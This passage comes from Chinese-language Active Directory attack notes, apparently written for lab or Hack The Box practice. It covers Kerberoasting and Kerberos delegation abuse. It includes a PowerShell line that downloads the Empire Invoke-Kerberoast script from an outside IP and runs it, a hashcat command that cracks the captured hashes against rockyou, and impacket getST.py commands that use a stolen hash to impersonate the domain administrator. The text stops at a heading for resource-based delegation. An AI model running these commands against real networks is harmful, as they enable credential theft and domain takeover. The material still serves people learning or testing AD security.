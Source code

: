 ```
https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1

iex(new-object net.webclient).downloadString('http://192.168.49.211:80/Invoke-Kerberoast.ps1'); Invoke-Kerberoast -OutputFormat Hashcat

hashcat -m 13100 --force -a 0 svc_mssql.kerberoast /usr/share/wordlists/rockyou.txt
```

## 5、委派

#### 非约束性委派打法：

**场景：**拿到具有委派的服务账户**（bloodhound可查）

相关主机账户和服务账户：userAccountControl 会包含 TRUSTED_FOR_DELEGATION 字段，域控默认非约束性委派。

使用mimikatz抓取即可，TGT，访问目标什么权限，就可以获得什么权限。

非约束委派在实战遇到较少，一般都是打印机强制认证，利用也不稳定。

需要非约束委派主机控制权

#### 约束委派打法：


**场景：拿到具有委派的服务账户（bloodhound可查）

主机账号或者服务账号被设置为约束委派时， userAccountControl 会包含RUSTED_TO_AUTHENTICATE_FOR_DELEGATION 字段，有msDS-AllowedToDelegateTo字段，里面包含了允许委派的服务

利用条件为：
1、知道设置约束性委派的用户名和密码（或者Hash）  （通常为当前立足点）
2、知道设置约束性委派设置的委派目标的SPN  （通常为横向目标主机）

就可以获取到委派目标的权限，通常为管理员。

利用方式：

```
hash方式：
python ../impacket/examples/getST.py -dc-ip 10.10.10.248 （域名/机器账户，不用加$）intelligence.htb/svc_int -hashes :e0dcda8d93bf71a6352ea7803c8f17f1 -spn (可以为委派的spn)www/DC.intelligence.htb -impersonate 'administrator'

账密：
python ../impacket/examples/getST.py -dc-ip 10.10.10.248 （域名/机器账户，不用加$）intelligence.htb/svc_int：password -spn (可以为委派的spn)www/DC.intelligence.htb -impersonate 'administrator'
```




#### 基于资源的约束委派打法

**场景：拿到具有委派的服务账户（bloodhound可查，不一定明说，DC的完全控制权可以，可看hacktricks）

当拿到的主机具备以下权限时可以考虑：
